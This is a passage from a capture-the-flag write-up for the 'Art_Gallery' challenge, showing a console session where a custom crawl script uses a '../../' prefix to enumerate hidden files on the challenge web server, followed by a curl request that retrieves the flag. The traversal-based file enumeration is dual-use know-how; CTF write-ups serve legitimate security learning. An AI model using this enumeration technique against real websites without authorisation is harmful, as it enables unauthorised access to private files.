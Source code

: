 To make a long story short, we'll jump a few steps ahead and scan for files within the `files/Habier` folder:

```console
root@kali:/media/sf_CTFs/shabak/Art_Gallery# python3 crawl.py -r "files/Habier/"
[*] Searching for files in 'files/Habier/'
[+] Crawling "files/Habier/" with prefix = "../../", suffix = "": Done
[*] Found: ['', 'files/Habier/sparkler.jpg', 'files/Habier/iceberg.jpg', 'files/Habier/Habier%26Valery4ever_%23WEBISFUN.txt']
[*] Searching for folders in 'files/Habier/'
[+] Crawling "files/Habier/" with prefix = "../../", suffix = "/*": Done
[*] Found: ['']
```

We found an interesting file: `files/Habier/Habier%26Valery4ever_%23WEBISFUN.txt`. Let's fetch it:

```console
root@kali:/media/sf_CTFs/shabak/Art_Gallery# curl http://art.shieldchallenges.com/files/Habier/Habier%26Valery4ever_%23WEBISFUN.txt
FLAG{You-R-Gl0bMast3R}
```